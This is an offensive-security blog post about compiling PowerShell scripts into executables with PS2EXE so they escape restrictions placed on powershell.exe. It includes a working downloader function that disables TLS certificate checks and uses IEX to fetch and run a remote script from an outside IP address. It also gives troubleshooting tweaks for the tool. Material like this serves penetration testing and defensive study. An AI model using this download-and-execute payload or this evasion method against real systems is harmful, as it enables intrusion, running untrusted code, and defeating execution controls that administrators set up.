

|| NIGHT OWL CONSULTING || Using ps2exe offensively, author: xor-function || 02/10/2016 || Back to main
PS2EXE allows on to compile powershell scripts into an executable. This is pretty useful due
to how it runs the script after being compiled.
First the program itself is a powershell script and uses a c# (csharp ) template that it generates
then compiles into an executable to run the Powershell script specified (converted to a base64 string)
via system.managment.automation. To put this simply, its a more straight forward way of doing
the same thing as Veils powerpick but by just using an executable instead of a reflective dll.
Which means, if your only able to run a generic exe on a system and are having trouble with scripts
you still may be able to leverage powershell.
This is because any restrictions placed on the powershell.exe binary do not apply to the .NET
libraries/assemblies. Additionally I have been having some success in running generated
executable's in a Windows 10 system, but it is still somewhat unstable.
The Powershell code that was compiled for this demo was just a downloader.
===[ BOF ]====
function start-download {
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }
IEX (New-Object System.Net.Webclient).DownloadString('https://192.168.43.150/tclient')
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $false }
}
start-download
===[ EOF ]====

One odd behavior observed was that certain commands did not return any output and in order
to force output, I had to encapsulate the cmd commands with "$()" before passing them.
Note: To be able to call ps2exe from the powershell prompt I first had to convert the script
into a function named ps2exe before being able to import it via iex.
you may run into a warning about [ Set-Location (Split-Path $MyInvocation.Mycommand.Path) ]
returning a null value.
I just altered the source to this to shut it up:
$testPath = $MyInvocation.Mycommand.Path
if ($testPath) { Set-Location (Split-Path $MyInvocation.Mycommand.Path) }